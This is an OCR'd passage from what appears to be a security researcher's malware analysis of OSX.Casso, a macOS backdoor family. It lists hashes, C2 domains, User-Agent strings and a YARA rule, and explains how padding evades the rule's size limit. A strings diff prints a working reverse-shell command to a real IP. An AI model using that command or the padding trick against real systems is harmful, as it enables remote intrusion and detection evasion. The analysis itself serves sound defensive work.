 3. OSX.Casso | Backdoors Galore
At the same time as TinkaOTP, CoinGoTrade and Cryptoistic began circulating, so too did a family of lightweight, backdoor binaries, written primarily in Objective-C and C and making heavy use of standard C libraries built in to the operating system. For convenience, we call these closely-related variants OSX.Casso (the reason will become clear shortly).
The first of these appeared on VirusTotal on June 1st with the file name “osxari”.
3c2f7b8a167433c95aa919da9216f0624032ac9ed9dec71c3c56cacfd5cd1837
Several variants followed quickly after:
e63640c53204a59ba59f2c310964149ca3616d79adc40a6c3abd5bf669511756
65cc7663fa5c5665ad5d9c6bec2b6257612f9f0c0ce7e4399e6dc8b464ea88c0
035089b4ef4a981f43455ebee7963af9e7502170ca206458f96be668b1e3674a
(UPX PACKED; unpacks to: 85d7379b7b82d6b7868f64203a444a5098c72ed7ccff6d1dbb536389a5be5a9c)
and, later
2dd57d67e486d6855df8235c15c9657f39e488ff5275d0ce0fcec7fc8566c64b
The last of these was uploaded with the filename “cassoosx”. A quick search revealed that there is also a Windows variant cassou.exe (hence the name OSX.Casso):
90ea1c7806e2d638f4a942b36a533a1da61adedd05a6d80ea1e09527cf2d839b
What makes these macOS samples all of a piece can be seen from a diff of their Symbol tables, which are almost identical across the range of samples and include heavy use of the built-in libcurl.4.dylib.

A diff of the embedded strings also reveals some of the significant differences between the first and most recent of OSX.Casso samples:
diff -y <(floss -s osxari) <(floss -s cassoosx) > bash -i > /dev/tcp/160.20.147.253/8443 0<&1 2>&1
_webident_f				 | _media_1
_webident_s				 | _media_2
https://fudcitydelivers.com/net.php	 | https://lastedforcast.com/list.php
https://fudcitydelivers.com/net.php	 | https://lastedforcast.com/list.php
https://sctemarkets.com/net.php		 | https://audiopodcasts.co/verify.php
xdns					 | darwin
					 > @_printf

The samples are almost identical except that “cassoosx” includes a reverse shell and different C2 domains. All of the samples except cassoosx are around 32Kb in size, but cassoosx has also been padded with several megabytes of junk printf calls, quite possibly to beat YARA rules that specify a max file size, such as those seen in the Apple’s static signature scanner XProtect.
Here we see the XProtect YARA rule for OSX.Casso:
rule XProtect_MACOS_b17a97e
{
	meta:
	description = "MACOS.b17a97e"
	strings:
		$s1 = { 89 C1 C1 E9 07 48 69 C9 11 08 04 02 48 C1 E9 20 69 C9 80 3F 00 00 F7 D9 }
	condition:
		Macho and filesize < 100KB and all of them
}

Although the rule’s single $s1 condition will hit on the cassoosx sample, the detection will fail as the binary size is well over the maximum 100Kb specified in the condition thanks to the padding:

A further change across OSX.Casso samples can be seen in the hardcoded User Agent strings and the version of Chrome that they denote, with the osxari User Agent encoded as follows:
3c2f7b8a167433c95aa919da9216f0624032ac9ed9dec71c3c56cacfd5cd1837
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
and all later samples including cassoosx updated to Chrome 83:
2dd57d67e486d6855df8235c15c9657f39e488ff5275d0ce0fcec7fc8566c64b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
The osxari backdoor is itself an evolution of an older Lazarus-related executable ‘Flash Player’ distributed in the malicous Album.app. Here we see the same basic methods and use of libcurl in Album.app’s executable, ‘Flash Player’, but there’s been a few revisions in the 2020 code:
(left: Flash Player; right: osxari):
